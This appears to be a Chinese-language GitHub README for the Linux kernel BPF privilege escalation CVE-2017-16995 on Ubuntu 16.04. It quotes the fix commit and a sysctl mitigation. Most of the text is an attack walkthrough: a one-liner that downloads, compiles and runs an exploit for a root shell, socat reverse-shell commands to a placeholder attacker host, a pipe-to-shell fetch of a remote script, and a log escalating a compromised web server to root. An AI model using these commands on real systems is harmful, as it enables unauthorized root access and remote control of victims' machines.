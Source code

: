 # Ubuntu16.04-0day

### 漏洞范围： all 4.4 ubuntu aws instances are vulnerable
#####  Jann Horn发现在某些情况下，Linux内核中的Berkeley Packet Filter（BPF）不正确地执行了符号扩展check_alu_op()。本地攻击者可以使用它在系统上进行提权,获取root权限。

```
bpf: fix incorrect sign extension in check_alu_op()
Distinguish between
BPF_ALU64|BPF_MOV|BPF_K (load 32-bit immediate, sign-extended to 64-bit)
and BPF_ALU|BPF_MOV|BPF_K (load 32-bit immediate, zero-padded to 64-bit);
only perform sign extension in the first case.

Starting with v4.14, this is exploitable by unprivileged users as long as
the unprivileged_bpf_disabled sysctl isn't set.

Debian assigned CVE-2017-16995 for this issue.

v3:
 - add CVE number (Ben Hutchings)

Fixes: 484611357c19 ("bpf: allow access into map value arrays")
Signed-off-by: Jann Horn <jannh@google.com>
Acked-by: Edward Cree <ecree@solarflare.com>
Signed-off-by: Alexei Starovoitov <ast@kernel.org>
Signed-off-by: Daniel Borkmann <daniel@iogearbox.net>

```

#### 前提条件：unprivileged_bpf_disabled sysctl未设置
#### CVE 编号： CVE-2017-16995
#### 注意: 如果不同的内核调整CRED偏移量+检查内核堆栈大小
### 漏洞测试环境
```

➜  ~ id

uid=1002(test) gid=1002(test) groups=1002(test)

➜  ~ lsb_release -a                  

Distributor ID:	Ubuntu
Description:	Ubuntu 16.04.3 LTS
Release:	16.04
Codename:	xenial

➜  ~ uname -a

Linux ubuntu 4.4.0-87-generic #110-Ubuntu SMP Tue Jul 18 12:55:35 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

➜  ~ 

```
### 参考解决方案
```

设置参数“kernel.unprivileged_bpf_disabled = 1”通过限制对bpf（2）调用的访问来防止这种特权升级
___________________________________________________________________________________________________________________________

root@Ubuntu# echo 1 > /proc/sys/kernel/unprivileged_bpf_disabled

______________________________________________________________________________________________________________________________


```

[![asciicast](https://asciinema.org/a/7OBFovzR6b5g5FQsS3bUVe0aW.png)](https://asciinema.org/a/7OBFovzR6b5g5FQsS3bUVe0aW)


## Use-Age:

```

wget -P /tmp http://cyseclabs.com/exploits/upstream44.c &&cd /tmp && gcc -o pwned  upstream44.c && chmod 777 pwned && ./pwned 

```

### upstream44.c

```

sha256sum b71b2317c2f2461f0c25a650c9c6a4dd2399e5d7f800ec19822ba720a574030d

sha1sum d91b5dd8b074dd33bbb6994ab21af4e6279c9098

md5sum f38c046a22fd85e3aab3aa7ea4ef21a4

```

![](./0day.jpg)

```
$ id
uid=1002(test) gid=1002(test) groups=1002(test)

$ wget -P /tmp http://cyseclabs.com/exploits/upstream44.c &&cd /tmp && gcc -o pwned  upstream44.c && chmod 777 pwned && ./pwned
--2018-03-16 17:08:09--  http://cyseclabs.com/exploits/upstream44.c
Resolving cyseclabs.com (cyseclabs.com)... 58.96.20.9
Connecting to cyseclabs.com (cyseclabs.com)|58.96.20.9|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5776 (5.6K) [application/octet-stream]
Saving to: ‘/tmp/upstream44.c.1’

upstream44.c.1                                       100%[==========================================================================>]   5.64k  --.-KB/s    in 0s
2018-03-16 17:08:10 (186 MB/s) - ‘/tmp/upstream44.c’ saved [5776/5776]

task_struct = ffff880065821980
uidptr = ffff880034edbe04
spawning root shell

root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:kernel_t:s0
```
### 利用socat获取一个tty shell
```
hacker: 监听port

wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat file:`tty`,raw,echo=0 tcp-listen:4444

victims：弹带TTY shell 下载编译exp

wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:x.x.x.x:4444

wget -P /tmp http://cyseclabs.com/exploits/upstream44.c &&cd /tmp && gcc -o pwned  upstream44.c && chmod 777 pwned && ./pwned

or you can do that 

sh -c "$(wget http://x.x.x.x/exp.sh -O -)"

参考链接： https://wx.abbao.cn/a/13847-7cd1b6e418fa413b.html
```
### case_for_Hack
```
➜  ~ wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat file:`tty`,raw,echo=0 tcp-li
sten:4444

www-data@vultr:/var/www/html$ su root
Password: 
su: Authentication failure
www-data@vultr:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@vultr:/var/www/html$ /tmp/pwned
task_struct = ffff880078bf9540
uidptr = ffff88007c3b16c4
spawning root shell

root@vultr:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@vultr:/var/www/html# 

```

### 参考链接

https://access.redhat.com/security/cve/cve-2017-16995

https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=95a762e2c8c942780948091f8f2a4f32fce1ac6f

https://security-tracker.debian.org/tracker/CVE-2017-16995

https://usn.ubuntu.com/3523-2/

https://www.securityfocus.com/bid/102288

https://github.com/torvalds/linux/commit/95a762e2c8c942780948091f8f2a4f32fce1ac6f



